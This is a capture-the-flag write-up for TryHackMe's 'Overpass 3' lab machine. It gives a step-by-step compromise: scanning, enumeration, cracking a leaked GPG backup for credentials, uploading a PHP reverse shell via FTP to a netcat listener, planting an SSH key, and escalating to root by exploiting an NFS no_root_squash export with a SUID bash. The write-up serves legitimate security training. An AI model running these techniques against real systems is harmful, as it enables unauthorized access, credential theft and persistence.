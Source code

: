 # Overpass 3

🔗 Link to the CTF: [https://tryhackme.com/room/overpass3hosting](https://tryhackme.com/room/overpass3hosting)   
🌐 IP used for the machine: 10.10.226.107

## Port Scanning

Upon boot, the first thing I did was to scan the machine with nmap using:

`sudo nmap -sC -sV -v 10.10.226.107 -oN nmap/initialScan` to see common open ports.

`sudo namp -A -p- -v 10.10.226.107 -oN namp/allPortsScan` to scan all open ports in agressive mode.

After the scan, three ports are seen open:
- **21**: Running FTP. No anonymous login available.
- **22**: Running SSH.
- **80**: Running HTTP.

## Directory enumeration

Nothing interesting was found neither when visiting the site in 10.10.226.107, nor when looking at the source code.

I ran gobuster for directory enumeration with: `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://10.10.226.107` and found the following result:

    ===============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.10.226.107
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Timeout:                 10s
    ===============================================================
    2022/08/10 09:47:13 Starting gobuster in directory enumeration mode
    ===============================================================
    /backups              (Status: 301) [Size: 237] [--> http://10.10.226.107/backups/]

There exists a **backups** directory, and, inside it, a **backup.zip** file.

## The ZIP file

After downloading the file and unzziping it, two files are found:
    -rw-r--r-- 1 kali kali 10366 Nov  8  2020 CustomerDetails.xlsx.gpg
    -rw------- 1 kali kali  3522 Nov  8  2020 priv.key

CustomerDetails.xlsx.gpg was encripted with GPG using the key priv.key. To decrypt it, we first impirt the key into gpg with `gpg --import priv.key` and decrypt the file with `gpg -d CustomerDetails.xlsx.gpg > CustomerDetails.xlsx`, outputting the result into the new file **CustomerDetails.xlsx**.

## FTP and getting a Reverse Shell

Inside the CustomerDetails.xlsx filewe find three customers with their usernames and passwords. So I tried them to login into the FTP, finding that I could do that for the user **paradox**.

After listing the files inside the FTP I found they were the same ones in the HTTP server:

    ftp> ls
    200 PORT command successful. Consider using PASV.
    150 Here comes the directory listing.
    drwxr-xr-x    2 48       48             24 Nov 08  2020 backups
    -rw-r--r--    1 0        0           65591 Nov 17  2020 hallway.jpg
    -rw-r--r--    1 0        0            1770 Nov 17  2020 index.html
    -rw-r--r--    1 0        0             576 Nov 17  2020 main.css
    -rw-r--r--    1 0        0            2511 Nov 17  2020 overpass.svg
    226 Directory send OK.

So, to test this, I uploaded a PHP reverse shell (I used the one from [Pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)) by running `ftp> put PATH_TO_REVERSE_SHELL`. I opened my netcat listener on port 8888 (that's the port I configured in the reverse shell) with `nc -lvnp 8888`. After accessing via HTTP 10.10.226.107/reverseShell.php got a conection.

## Web Flag

Running `id` on the reverse shell reveals that we are connected as `uid=48(apache) gid=48(apache) groups=48(apache)`. So, I ran `find / -name=*flag*` and found the flag at **/usr/share/httpd/web.flag**.

## User Flag

### Logging in as Paradox

Reading the `/etc/passwd` file reveals two interesting users: **paradox** and **james**. Since we have paradox's password for the FTP, I tried logging in as him with that password by running `su paradox`; it was successful.

After that, I tried to find the user's flag, but I couldnt do so with Paradox. The aim now is to login as james and see if he can access it.

### Connecting as paradox via SSH

Inside paradox's home directory we have access to the **.ssh** directory and with it to the SSH keys. I first created a new private/public SSH key pair with `ssh-keygen` and wrote the public key into the authorized_keys file with `cat id_rsa.pub >> authorized_keys`. I then copied the private key into my local machine in a file called **id_rsa_paradox** (I also chenged permissions to 600 with `chmod 600 id_rsa_paradox`) and coinnected via SSH using `ssh paradox@10.10.226.107 -i id_rsa_paradox`.

### Vulnerability enumeration with linpeas and explotation

The results of linpeas show an interesting vulnerability regarding NFS shares:

    ╔══════════╣ Analyzing NFS Exports Files (limit 70)
    -rw-r--r--. 1 root root 54 Nov 18  2020 /etc/exports
    /home/james *(rw,fsid=0,sync,no_root_squash,insecure)

This indicates that James Homes directory can be accesed as a NFS share. However, trying to directly mount it in our local machine won't work because it is running on its localhost. Thus, we must make it accessible to us. What I did was to create an SSH tunnel for port forwarding, mapping port 4049 on my machine to port 2049 on the target machine (default port for NFS), with `ssh -L 4049:10.10.226.107:2049 paradox@10.10.226.107 -i id_rsa_paradox`.

To check this worked I scanned local port 4049 with `nmap -sV -p 4049 localhost`. The result was:

    PORT     STATE SERVICE VERSION
    4049/tcp open  nfs     3-4 (RPC #100003)

Now we can mount that directory. I created a directory called jamesHomeDir. In there I mounted James' home directory with: `sudo mount -t nfs -o port=4049 localhost:/ jamesHomeDir`.

### The User Flag

Inside this directory we will find the user flag.

## Logging in as James

Listing the contents of the mounted directory, we find the following:

    $ ls -al             
    total 20
    drwx------ 3 kali kali  112 Nov 17  2020 .
    drwxr-xr-x 7 kali kali 4096 Aug 10 13:42 ..
    lrwxrwxrwx 1 root root    9 Nov  8  2020 .bash_history -> /dev/null
    -rw-r--r-- 1 kali kali   18 Nov  8  2019 .bash_logout
    -rw-r--r-- 1 kali kali  141 Nov  8  2019 .bash_profile
    -rw-r--r-- 1 kali kali  312 Nov  8  2019 .bashrc
    drwx------ 2 kali kali   61 Nov  7  2020 .ssh
    -rw------- 1 kali kali   38 Nov 17  2020 user.flag

We have access to the .ssh directory. We can grab james' private key and use it to log in as him via SSH.

## Privilege escalation

Once in, to escalate privileges, we will run bash as root. For that, the first thing will be to copy into james' home directory (the one we can access from our home machine) the bash file with `cp /usr/bin/bash /home/james` (**from the SSH session**). **In our local machine** we will change the ownership of the file, so that root owns it, and make it a SUID binary with:

    $ sudo chown root:root bash
    $ sudo chmod +s bash

After that, in the SSH session, as James, we will run that bash file with the **-p** flag: `./bash -p`. Running `id` shows we have root privileges: `uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),1000(james)`.

## Root Flag

Inside the root directory we'll find the root flag.
